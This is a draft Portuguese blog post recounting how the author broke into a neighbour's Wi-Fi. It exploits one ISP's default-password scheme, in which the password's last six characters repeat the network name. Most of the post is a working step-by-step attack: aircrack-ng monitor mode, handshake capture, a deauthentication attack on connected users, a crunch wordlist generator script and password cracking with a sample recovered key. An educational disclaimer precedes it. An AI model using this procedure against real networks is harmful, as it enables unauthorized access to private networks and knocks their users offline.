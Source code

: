 ```yaml
---
title: Invadindo rede wifi na prática
description: Mostrando como hackeei a rede wifi de uma vizinha da minha mãe
tags: ["Wifi Hacking", "Shell Script", "Brute Force"]
categories: ["SecLab", "Way Of Security"]
pin: true
draft: true
date: 2023-08-25 08:19:12 +02:00
author: matheus
---
```


# Hackeando redes sem fio na prática

Neste artigo vou mostrar para vocês como funciona na prática a invasão de uma rede wireless, e como foi minhas primeiras experiências hackeando redes wifi reais.

Será considerado que você já sabe do básico de redes wireless, como funcionam os protocolos e conceitos, pois eles não serão explicados aprofundadamente nesta publicação. Para isso, teremos uma postagem específica que correrá por toda essa base de forma detalhada.

### O que esperar desta publicação

Nesta postagem será esperado algumas explicações mais _técnicas_ - mas não aprofundadas - dos passos e ferramentas utilizadas no processo, pois o foco é mostrar a prática de uma **invasão em redes wireless** alheias utilizando pacote **Aircrakc-ng**, e *como foi a minha experiência descobrindo uma falha nas credenciais padrões de roteadores de uma grande operadora*, que me permitia **descobrir e ter acesso a qualquer rede que não tivesse alterado as credencias padrões**.

>
>*Vale já esclarecer que o intuito deste tópico é totalmente educativo e não me responsabilizo por nenhum ato de terceiro.* 

>*Deixo* claro *também que, apesar dos pesares, nenhum ato de intenção malígna foi feito e a* operadora *em questão já atualizou sua forma de padronização de credenciais. Por este motivo resolvi repostar sobre esta falha protocolar, visto que muitos usuários ainda podem estar utilizando e ficando vulneráveis e precisam se atentar a isso.*

 - aviso rapido
> A operadora tinha me pedido para tirar o script do ar na epoca, hj com o padrão mais seguro, coloco este documento com script de forma a esconder o nome da empresa mas deixando claro a vulnerabilidade que os usuários podem estar deixando passar. - Este documento ainda não está terminado, em breve mais informações, mas a parte prática já está lançada.

# Passo a passo prático

> Todo o processo foi feito dentro de um mesmo diretório

### Criando documento para salvar informação útil

```bash
nano < nome >
```
`Exemplo: nano infos`

### Anotar sobre a interface de rede

```bash
iwconfig
```

### Ativar modo de monitoramento

```bash
sudo airmon-ng start < interface >
```
`Exemplo: sudo airmon-ng start wlp1s0` -> resultando na interface em modo mon: `wlp1s0mon`

Utilize o "stop" para desativar, além de pode utilizar o comando com "status" para verificar se está ativado ou desativado. 
 > Lembre-se de que o modo de monitoramento te desconecta da sua rede.

### Monitorar redes wi-fi próximas

```bash
sudo airodump-ng < interfacemon >
```
`Exemplo: sudo airodump-ng wlp1s0mon`

 Não esquecer de anotar as informações adquiridas nesta parte no seu documento, como ESSID (nome da rede), BSSID (endereço mac/físico) e o CH (canal).

### Monitoramento específico com captura de '.cap'

```bash
sudo airodump-ng --bssid < mac > -c < CH > -w < nome > < interfacemon >
```

ou

```bash
sudo airodump-ng --essid < wifi > -c < CH > -w < nome > < interfacemon >
```

ou

```bash
sudo airodump-ng --essid < nomeWiFi > -w < nomeArquivo > < interfacemon >
```

`Exemplo: sudo airodump-ng --essid KL4N0_2G5G672U -c 1 -w APtura wlan0mon`

 Recomendado ser mais específico, por exemplo, deixar claro o canal de funcionamento e o endereço físico. 
 
 Agora a tabela de monitoramento vai ser apenas na rede especificada, como poderá ser visto na tabela de cima, e com a tabela de baixo mostrando os dispositivos que se comunicam com esta rede. 
 
 > Agora pode existir algum tipo de ataque direto em um usuário de uma rede, por exemplo para ser desconectado, ou numa rede inteira que afetaria todos os conectados nela.
 
 Colocar o BSSID do(s) alvo(s) no documento e abra uma outra sessão/aba no terminal.

### Ataque de desautenticação de usuário(s)

```bash
sudo aireplay-ng --deauth < númeroPacotes > -a < bssidAlvo > < interfacemon >
```
 Usando `aireplay` enquanto roda o monitoramento dessa rede em outra sessão do terminal / em segundo plano, pode ser visto o alvo sendo desconectado, sendo forçado a se reconectar e a **captura do handshake**. Quando a captura ocorrer, então o processo foi finalizado.

### Criação da wordlist das redes vulneráveis para força bruta

```bash
crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@PADRAO -o nomeWL
```
 Rede alvo com padrão vulnerável -> essid: `KL4N0_2G5G672U` -> os 6 últimos dígitos também são os últimos 6 da senha (de 8 dígitos) -> 5G672U

 `Exemplo: crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@5G672U -o wl`

> É possível reconhecer que é fácil de automatizar isso em shell script, né? bem fácil... tendo em vista que o código padrão q é usado no nome e na senha nunca será o mesmo da de outra rede, então precisamos fazer o script funcionar de acordo com o nome da rede fornecida.

#### Automatizando a criação da wordlist

Fazendo a wordlist perfeita para as redes que seguem o mesmo padrão.

> padrão de exemplo: KL4N0_2G5G672U:xx5G672U para descobrirmos o valor de `xx`

```sh
#!/bin/bash
read -p "Digite o nome da rede alvo (essid): " essid
echo $essid | cut -d "G" -f 2 > wifi.txt && crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@$(cat wifi.txt) -o wl &>/dev/null && rm wifi.txt
sleep 0.35s
echo "Wordlist criada com sucesso!"
sleep 0.2s
echo "Arquivo salvo como wl"
```

### Quebrando a senha da rede sem fio alvo

```bash
sudo aircrack-ng -a2 -e < "ESSID_Rede" > < "NomeArquivoCap*" > -w < wordlist >
```

    Resultado de exemplo da rede KL4N0_2G5G672U -> Key Found! [325G672U]
    
> Não esquecer de dar o `airmon-ng stop wlp1s0mon`